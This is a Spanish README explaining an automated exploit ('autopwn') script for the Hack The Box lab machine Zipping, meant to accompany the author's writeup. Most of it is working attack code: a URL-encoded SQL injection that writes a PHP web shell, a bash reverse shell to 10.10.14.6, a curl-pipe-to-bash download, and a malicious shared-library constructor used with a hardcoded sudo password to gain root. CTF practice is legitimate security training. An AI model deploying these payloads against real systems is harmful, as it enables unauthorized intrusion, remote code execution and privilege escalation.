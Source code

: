 # Autopwn - Zipping

En caso de no haber realizado la máquina Zipping, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/Zipping) para comprender el autopwn.

<p align="center">
	<img src="Img/Autopwn-Zipping.png"
		alt="autopwn"
	style="float: left; margin-right: 10px;" />
</p>

# Funcionamiento

El primer paso que realiza el script, es la creación del servicio HTTP con Python.

```python
http_server = subprocess.Popen(["python3","-m","http.server","80"],stdout=subprocess.DEVNULL,stderr=subprocess.DEVNULL)
```

```python3
if http_server.poll() is None:
		p1.success("Servicio iniciado con exito")
```

Después de iniciar el servicio HTTP, va a la función **makeRequest** en segundo plano para realizar el SQLi y los archivos necesarios, mientras, por otro lado, se pone en escucha por un puerto.

```python3
try:
		proc = multiprocessing.Process(target=makeRequest)
		proc.start()
	except Exception as e:
		log.error(str(e))
		cleanup(1)
		sys.exit(1)

with listen(lport, timeout=20) as shell:
```

Dentro de la función **makeRequest** crea los archivos **libcounter.c** y **revshell.sh** con su contenido abriendolos en modo escritura.


```python3
def makeRequest():
	contenido_so = '''#include <stdio.h>\n#include <stdlib.h>\n\nstatic void inject() __attribute__((constructor));
	\nvoid inject(){\n\tsystem(\"/bin/bash\");\n}'''

	with open('libcounter.c','w') as archivo:
		archivo.write(contenido_so)

	contenido_revshell= '''#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1'''


	with open('revshell.sh','w') as archivo:
		archivo.write(contenido_revshell)
```

Para luego crear el archivo enviando el SQLi y realizar la petición para recibir la ReverseShell.


```python3
main_url= "http://10.10.11.229/shop/index.php?page=product&id=3"

sqli = "%0A%27%3B%20select%20%27%3C%3Fphp%20system%28%22curl%20http%3A%2F%2F10.10.14.6%2Frevshell.sh%7Cbash%22%29%3B%20%3F%3E%27%20into%20outfile%20%27%2Fvar%2Flib%2Fmysql%2Frev.php%27--%20-3"

main_url2= "http://10.10.11.229/shop/index.php?page=/var/lib/mysql/rev"
```

```python3
r = requests.get(main_url+sqli)
time.sleep(1)
r = requests.get(main_url2)
```

Finalmente durante los 20 segundos, si recibe una petición, ejecuta de forma automática todos los pasos que se necesitan para realizar la escalada de privilegios.

```python3
with listen(lport, timeout=20) as shell:
		if shell.wait_for_connection():
			shell.sendline("cd /home/rektsu/".encode('utf-8'))
			shell.sendline("wget http://10.10.14.6/libcounter.c &>/dev/null".encode('utf-8'))
			shell.sendline("gcc -shared -fPIC -o libcounter.so libcounter.c && rm libcounter.c".encode('utf-8'))
			shell.sendline("mv libcounter.so .config/".encode('utf-8'))
			shell.sendline("sudo /usr/bin/stock".encode('utf-8'))
			time.sleep(1)
			shell.sendline("St0ckM4nager".encode('utf-8'))
			time.sleep(1)
			shell.interactive()
```

